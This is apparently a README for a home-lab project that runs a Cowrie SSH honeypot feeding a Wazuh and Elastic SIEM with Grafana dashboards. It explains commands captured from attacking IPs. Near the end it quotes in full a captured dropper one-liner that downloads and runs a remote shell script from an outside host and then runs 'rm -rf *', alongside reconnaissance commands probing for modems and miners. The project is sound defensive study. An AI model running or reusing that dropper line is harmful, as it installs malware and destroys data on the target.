


# Cowrie SSH Honeypot + Wazuh SIEM Stack Project

## Table of Contents

- [Project Overview](#project-overview)
- [Lab Environment](#lab-environment)
- [Attacker Behavior & Investigation](#attacker-behavior--investigation)
- [Conclusion](#conclusion)

## **Project Overview**

This project involves deploying and monitoring a medium-interaction SSH honeypot using Cowrie, integrated with a centralized security monitoring and log analysis stack based on Wazuh and the Elastic Stack. The goal is to capture and analyze malicious SSH activity in real time, understand attacker behavior, and build a scalable detection and visualization pipeline using modern cybersecurity tools.

## **Lab Environment**
The project infrastructure is hosted on a **cloud-based OVH bare metal server** running **Proxmox** as the hypervisor. The internal environment includes:

- A **Cowrie SSH honeypot VM** running on Ubuntu-24.04 Live Server, with limited outbound traffic allowed only over essential ports (e.g., SSH).
- A **Wazuh stack server VM** running the Wazuh All-in-One Docker deployment, which includes Wazuh Manager, Elasticsearch, Logstash, and Filebeat.
- A **management VM** running on Ubuntu-24.04 Desktop for access to the Wazuh Dashboard and Grafana interface.
- A **pfSense firewall VM** controlling internal traffic flow to ensure the honeypot remains isolated except for required communication between the Wazuh agent and manager.

### **Honeypot Configuration**
The honeypot uses **Cowrie**, a medium-to-high interaction SSH honeypot designed to emulate a shell environment. It logs attacker activity such as:

- Both failed and successful login attempts
- Attempted usernames, passwords, and post-authentication commands
- Source IP addresses** for every attempt

### **Wazuh Stack**

The detection and monitoring system is deployed using the **Wazuh All-in-One Docker installer**, which sets up a complete SIEM stack in a containerized environment. This stack integrates components from the **Wazuh platform** and the **Elastic Stack**, providing centralized log collection, enrichment, alerting, storage, and visualization.

- **Wazuh Manager** – Collects log data from agents, applies decoders and rules, and generates alerts.  
- **Elasticsearch** – Stores structured log and alert data for search, correlation, and visualization.  
- **Filebeat** – Forwards alert data from Wazuh Manager to Logstash.
- **Logstash** – Enriches log data before indexing it in Elasticsearch.
- **Wazuh Dashboard** – Web interface built on Kibana for visualizing alerts, agent status, and logs.
- **Grafana** *(Added to replace Kibana)* – Used to build real-time custom dashboards with data from Elasticsearch.

A custom ruleset was created to ingest logs according to:
- Failed login attempts
- Successful logins (using Cowrie-accepted credentials)
- Command execution after login

### **Log Pipeline**
Logs follow this path:

1. Cowrie generates structured logs that record all activity.
2. The Wazuh Agent, installed on the honeypot VM, reads Cowrie’s log files and forwards them to the Wazuh Manager.
3. The Wazuh Manager parses the logs using our custom rules to generate alerts.
4. Alerts and enriched log data are sent to Elasticsearch for indexing.
5. Dashboards (Grafana or Wazuh’s own dashboard) query Elasticsearch to visualize the data.

### **Visualization in Grafana**
Instead of Kibana, this project uses **Grafana** with the **Elasticsearch plugin** to create real-time dashboards. Although Kibana is commonly used with Elasticsearch, I chose Grafana for this project because my team at work is planning to adopt it soon. I wanted to get ahead by becoming familiar with the tool, and this project gave me a practical use case to start exploring its capabilities.

Visualizations include:
- Successful and failed login attempts
- Top attempted usernames
- Commands entered by attackers
- Geolocation map of source IPs
- Time-series analysis of login activity
- Attack volume by country
- Unique IPs per region

---

## **Attacker Behavior & Investigation**

The honeypot has been running for one week capturing live attack data. In this section, I will investigate specific IP addresses, analyze command sequences, and attempt to infer attacker intent based on behavior.

### 134.209.120.69 

According to abuseipd.com, this is a know malicious ip with over 14,000 reports. They seem to be leveraging the cloud as the IP is a digital ocean IP which makes me believe that they are running out of the Digital Ocean cloud or utilizing a private VPN running on Digital Ocean.
This attack most likely came from a bot considering the speed of the commands entered and the fact that I can find this attack replicated online.

The bot ran multiple commands that:
- Attempted to identify whether the system was a **router**, **SMS server**, or **crypto mining node**
- Searched for pre-existing malware or mining processes
- Issued a command to test if the environment was a functioning shell

Some of the more interesting commands they tried to execute include:

`/ip cloud print`
  
  Purpose: This command is not a standard Linux command. It's actually a command specific to MikroTik RouterOS.  
  What it does: It prints the public IP address and other cloud settings of the MikroTik device.  
  Why a malicious user may use it: If your server is running MikroTik RouterOS, this would help the attacker identify the external IP address of the device. 

`ps | grep '[Mm]iner'`

Purpose: Lists running processes and checks if a cryptocurrency miner is already running.  
Why a malicious user may use it: 
- To check if the system is already infected with a crypto miner. 
- To avoid conflict with another attacker's miner.
- To possibly kill competing miners and install their own.

`ls -la /dev/ttyGSM* /dev/ttyUSB-mod* /var/spool/sms/* /var/log/smsd.log /etc/smsd.conf* /usr/bin/qmuxd /var/qmux_connect_socket /etc/config/simman /dev/modem* /var/config/sms/*`

This command tried to list the files in multiple directories. The directories it was interested in was very interesting:

`/dev/ttyGSM*, /dev/modem*, /dev/ttyUSB-mod*`

What it is: These are device files typically associated with modems — especially GSM (cellular) or USB-based LTE sticks. 
Why a malicious user may use it: If the attacker finds a GSM modem, they might try to: 
- Send or receive SMS messages. 
- Exploit the modem to gain data connectivity. 
- Use the device for SMS spamming, phishing, or OTP interception. 

`/var/spool/sms/*, /var/log/smsd.log, /etc/smsd.conf*, /var/config/sms/* `

What it is: These paths are associated with SMS server software, especially smstools. Smstools allows a server to send/receive SMS messages via a connected modem.  
Why a malicious user may use it: They're checking if your server is acting as an SMS gateway. If so, they might try to hijack it to send bulk spam, fraud messages, or phishing attacks. 

`/usr/bin/qmuxd, /var/qmux_connect_socket, /etc/config/simman `

What it is: qmuxd is a daemon used in Qualcomm-based modems for managing communication between the OS and the cellular modem (via QMI). simman likely refers to SIM management tools on embedded Linux systems or routers. 

Why a malicious user may use it: This command is part of a targeted script that checks if your system: 
- Has a SIM card or LTE modem. 
- Is running an SMS gateway or cellular router setup. 
This allows them to potentially:
- Send spam SMS. 
- Intercept or forward OTPs (e.g., MFA codes). 
- Use your mobile data plan or IP address for shady traffic. 

This is common on IoT devices, industrial routers, and small embedded systems that get exposed to the internet (often unintentionally). 

### 206.189.80.159 

According to abuseipd.com, this is a known malicious ip with over 100 reports. Like the previous malicious IP we investigated, they also seem to be utilizing Digital Ocean cloud services to launch their attacks from.

This attacker only tried to run one command:

`cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://103.178.235.240/ohshit.sh; curl -O http://103.178.235.240/ohshit.sh; chmod 777 ohshit.sh; sh ohshit.sh; tftp 103.178.235.240 -c get ohshit.sh; chmod 777 ohshit.sh; sh ohshit.sh; tftp -r ohshit2.sh -g 103.178.235.240; chmod 777 ohshit2.sh; sh ohshit2.sh; ftpget -v -u anonymous -p anonymous -P 21 103.178.235.240 ohshit1.sh ohshit1.sh; sh ohshit1.sh; rm -rf ohshit.sh ohshit.sh ohshit2.sh ohshit1.sh; rm -rf *`

Purpose: The script first attempts to change directories to a series of locations on the local system (/tmp, /var/run, /mnt, /root, or /), presumably trying to find an accessible location to operate from.  It then tries to download a presumably malicous file using three different download methids (curl, tftp, and ftpget)

